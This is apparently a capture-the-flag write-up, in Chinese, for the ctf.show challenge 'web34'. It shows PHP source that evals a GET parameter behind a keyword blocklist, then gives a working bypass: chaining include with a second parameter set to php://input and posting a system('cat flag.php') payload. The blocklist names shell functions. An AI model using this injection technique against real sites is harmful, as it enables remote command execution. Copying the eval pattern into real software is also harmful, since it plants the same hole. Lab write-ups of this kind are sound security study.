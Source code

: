 # web34

```php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

除了空格以外，还拦截了以下字符

```plaintext
. ' ` ; ( " :
```

那么只要`c`参数的数据内没有冒号即可

```plaintext
https://3d3a6884-5f1c-4caf-bf7f-f73983c25645.challenge.ctf.show/?c=include$_GET["command"]?>&command=php://input

POST: <?php system("cat flag.php"); ?>
```

![img](img/image_20250258-185817.png)